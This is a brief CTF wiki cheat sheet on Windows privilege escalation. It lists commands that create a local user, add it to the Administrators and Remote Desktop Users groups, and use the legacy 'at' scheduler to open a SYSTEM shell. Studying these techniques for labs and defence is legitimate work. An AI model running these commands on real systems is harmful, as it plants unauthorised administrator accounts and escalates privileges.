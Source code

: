 ```yaml
---
layout: article
title: Windows Privilege Escalation
permalink: /wikis/ctf/windows-privilege-escalation
aside:
    toc: true
sidebar:
    nav: ctf
---
```



Adding users 
```
net user <username> <password> /ADD 
net localgroup administrators <username> /ADD 
net localgroup "Remote Desktop Users" username /ADD 
```
<br>
<br>
Admin to System 
```
at 13:01 /interactive cmd
```